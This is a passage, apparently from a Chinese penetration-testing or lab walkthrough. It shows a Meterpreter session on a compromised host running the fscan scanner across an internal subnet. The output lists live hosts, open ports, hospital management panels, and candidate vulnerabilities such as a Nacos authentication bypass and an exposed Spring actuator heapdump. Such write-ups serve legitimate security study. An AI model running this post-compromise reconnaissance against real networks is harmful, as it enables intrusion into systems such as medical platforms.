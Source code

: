 上线VIPER

[![](assets/1706771111-1bf6c49ccc7643cd4d722bfb72b75a07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173508-b0e40aa0-be89-1.png)

## 信息搜集

上传Fscan进行内网网段扫描

```plain
meterpreter > shell -c './fscan -h 172.30.12.5/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:8848 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转url: http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file
```
